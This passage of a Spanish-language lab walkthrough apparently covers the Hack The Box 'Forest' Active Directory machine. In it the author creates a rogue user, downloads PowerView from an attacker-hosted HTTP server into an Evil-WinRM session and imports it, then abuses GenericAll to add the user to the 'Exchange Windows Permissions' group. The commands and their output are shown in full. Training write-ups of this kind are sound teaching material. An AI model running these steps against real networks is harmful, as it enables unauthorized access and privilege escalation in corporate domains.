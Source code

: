 ```powershell
net user madlies madlies123 /add 
The command completed successfully.
```

Es importante tener en cuenta que del **paso 1** al **paso 3** ya los tenemos completados por tener acceso a la cuenta **svc-alfresco**. Con esto en mente, simplemente hay que partir desde el **paso 4** y añadir a nuestro usuario al grupo privilegiado. Para poder ejecutar los comandos necesarios, debemos hacer uso del script **PowerView**, por lo que hay que enviarlo a la máquina. 

Podemos montar un servidor en python para transferir el archivo:

```c
❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Y dentro de la máquina lo podemos descargar

```powershell
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> wget http://10.10.14.94/PowerView.ps1 -O PowerView.ps1
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> dir


    Directory: C:\Users\svc-alfresco\Documents


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----         8/4/2024   7:46 PM         770279 PowerView.ps1
-a----         8/4/2024   6:27 PM        1046528 SharpHound.exe
```

Ahora importamos el modulo con el siguiente comando:

```c
PS C:\Users\svc-alfresco\Documents> import-module .\PowerView.ps1
```

Con el entorno configurado de forma correcta, ya podemos seguir los comandos que nos indica **BloodHound**.

#### Añadir un usuario a un grupo por GenericAll

Se puede hacer uso del siguiente comando:

```powershell
Add-DomainGroupMember -Identity 'group' -Members 'user'
```

Pero debemos añadir los datos correspondientes:

```powershell
PS C:\Users\svc-alfresco\Documents> Add-DomainGroupMember -Identity 'EXCHANGE WINDOWS PERMISSIONS' -Members 'madlies'
PS C:\Users\svc-alfresco\Documents> net user madlies
User name                    madlies
Full Name
Comment
... 

Local Group Memberships
Global Group memberships     *Exchange Windows Perm*Domain Users
```
